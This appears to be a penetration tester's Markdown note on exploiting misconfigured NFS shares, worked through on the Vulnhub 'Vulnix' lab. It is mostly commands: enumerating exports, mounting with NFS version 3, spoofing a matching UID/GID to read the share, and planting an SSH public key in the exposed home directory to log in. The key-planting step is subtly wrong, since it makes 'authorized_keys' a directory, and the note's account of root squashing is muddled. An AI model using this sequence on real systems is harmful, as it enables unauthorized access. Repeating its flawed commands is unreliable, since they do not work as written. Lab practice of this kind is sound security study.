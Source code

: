 # Background
- Network File Share. 
- This is a service used so that people can access certain parts of a remote filesystem. If this is badly configured it could mean that you grant excessive access to users. 
- You mount the NFS folder onto a local folder of your machine to interact with it. If root squashing is enabled, then our ability to interact with the NFS is initially liminted.  However, if we can rollback the NFS version to #3, then we can get around root squashing.
  - The way NFS works with permissions: to access a locally mounted share, your UID and GID need to match the ones of the shared directory on the server.  NFS version 4 doesn't show the remote UID and GID, but NFS version 3 does show this informaiton.  So, you can just create a user with the correct username, UID, and GID on the attacker box to access a locally-mounted NFS that has root squashing enabled.
- The /etc/exports file on the NFS share lists the different share volumes available for mounting to other computers as well as configuration settings like root Squashing.

# Enumeration (Vulnhub:Vulnix)
1. Check to see what the filesystem is sharing through this service.
```
showmount -e [IP]
```
2. Create a directory location to mount the NFS file system to your box.
```
mkdir -p /[file location]/nfs
```
3. Mount the NFS to your attacker machine at the designated NFS mounting location.
```
mount -t nfs [IP]:/[target file system from #1] [attacker file system NFS location from #2] -nolock
```
  Example
  ```
  mount -t nfs 10.10.10.12:/home/vulnix /root/Boxes/Vulnix/Exploits/nfs -nolock
  ```
4. Try to access the NFS mount at the location you created in #2 on your local box.  If you're unable to access this location, then the target has correctly enabled [root_squashing](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/security_guide/sect-security_guide-securing_nfs-do_not_use_the_no_root_squash_option) so that we can't read the contents.
  - A way around this is to see if version 3 of NFS is enabled.
5. See if NFS version 3 is allowed for the NFS.
```
mount -t nfs -o vers=3 [IP]:/[target file system from #1] [attacker file system NFS location from #2] -nolock
```
6. If we can mount with NFS version 3, we should list the mounted file permissions to read the UID and GID of the system.
```
ls -ld [attacker file system NFS location from #2]
```
7. Create a new user on the attacker box with the UID and GID identified in #6.
```
groupadd --gid [GID from #6] [group name]
useradd --uid [UID from #6] --groups [group name from previous cmd] [user name]
sudo -u [user name from above command] ls -la [attacker file system NFS location from #2]
```
8. If the NFS is a home directory of a user AND SSH is open on the target, then we can use our new access to the NFS to add our SSH public key to the home directory of the allowed user.  Then we can just SSH into the target with the user whose home directory is exposed through NFS where we just uploaded our SSH public key.
```
mkdir [attacker file system NFS location from #2]/.ssh/authorized_keys
cp ~/.ssh/id_rsa.pub [directory you created in last cmd]
ssh -i ~/.ssh/id_rsa [user name whose home directory we mounted]@[IP]
```
